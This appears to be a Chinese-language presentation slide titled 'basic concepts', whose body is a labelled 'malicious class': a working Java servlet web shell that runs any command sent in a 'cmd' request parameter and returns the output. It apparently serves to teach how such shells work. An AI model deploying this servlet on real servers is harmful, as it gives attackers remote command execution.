

# 基本概念
恶意类：
   public class Shell_Servlet implements Servlet {
         @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            HttpServletRequest lrequest = (HttpServletRequest) req;
            HttpServletResponse lresponse = (HttpServletResponse) res;
            if (lrequest.getParameter("cmd") != null){
                Process process = Runtime.getRuntime().exec(lrequest.getParameter("cmd"));
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                lresponse.getOutputStream().write(stringBuilder.toString().getBytes());
                lresponse.getOutputStream().flush();
                lresponse.getOutputStream().close();
                return;
            }
        }

38